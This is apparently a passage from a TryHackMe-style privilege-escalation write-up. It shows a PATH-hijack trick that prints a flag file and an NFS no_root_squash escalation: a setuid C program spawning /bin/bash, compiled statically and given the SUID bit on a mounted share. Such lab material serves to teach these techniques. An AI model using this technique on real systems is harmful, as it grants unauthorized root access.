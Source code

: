 let's add a command to print the flag....

```bash
echo 'cat /home/matt/flag6.txt' > thm
```

![thm.png](thm.png)

---
# Privilege Escalation: NFS

#### Mounting

```bash
sudo mount -t nfs 10.10.249.239:/home/ubuntu/sharedfolder /tmp/bb
```

#### Creating the binary and giving the `SUID`

The `C` code:

```C
#include <stdio.h>
#include <stdlib.h>
int main()
{
   setgid(0);
   setuid(0);
   system("/bin/bash");
return 0;
}
```

Compiling it..
```bash
sudo gcc -static -o rooted exp.c
sudo cp rooted bb/rooted
```

Setting the `SUID`...
```bash
sudo chmod +s bb/rooted
```

On host..

![host.png](host.png)

on Attacked Machine...

![machine.png](machine.png)

---

# Capstone Challenge
